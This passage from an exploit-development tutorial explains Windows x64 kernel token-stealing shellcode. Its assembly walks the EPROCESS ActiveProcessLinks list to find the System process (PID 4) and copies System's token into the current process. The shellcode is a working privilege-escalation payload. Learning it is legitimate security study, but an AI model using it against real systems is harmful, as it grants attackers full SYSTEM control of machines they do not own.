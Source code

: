 {% highlight asm %}
  mov rax, gs:0x188
  mov rax, [rax + 0xb8]
{% endhighlight %}


## Browsing through the process list to reach `System`

The processes are stored in the `ActiveProcessLinks` (offset 0x2e8) of the
`nt!_EPROCESS` structure, via a `_LIST_ENTRY`, which is a doubly linked list in
its simplest form:

{% highlight text %}
kd> dt _LIST_ENTRY
ntdll!_LIST_ENTRY
   +0x000 Flink            : Ptr64 _LIST_ENTRY
   +0x008 Blink            : Ptr64 _LIST_ENTRY
{% endhighlight %}

Since we know that `System` process ID is 4, we can write a very small loop in
assembly, whose pseudo-C code would be:

{% highlight c %}
ptrProcess = curProcess
while ptrProcess->UniqueProcessId != 4 {
   ptrProcess = ptrProcess->Flink
}
{% endhighlight %}

Which builds the second part of our shellcode:

{% highlight asm %}
;; rax has the pointer to the current KPROCESS
mov rbx, rax

__loop:
mov rbx, [rbx + 0x2e8] ;; +0x2e8  ActiveProcessLinks[0].Flink
sub rbx, 0x2e8 ;; nextProcess
mov r9, [rbx + 0x2e0] ;; +0x2e0  UniqueProcessId
cmp r9, 4 ;; compare to target PID
jnz __loop

;; here rbx hold a pointer to System structure
{% endhighlight %}


## Overwrite the current process token field with `System`'s

This is the final part of our shellcode, and the easiest since everything was
done in the steps above:

{% highlight asm %}
;; rax has the pointer to the current KPROCESS
;; rbx has the pointer to System KPROCESS

mov rcx, [rbx + 0x348] ;; +0x348  Token
and cl, 0xf0 ;; we must clear the lowest nibble
mov [rax + 0x348], rcx
{% endhighlight %}
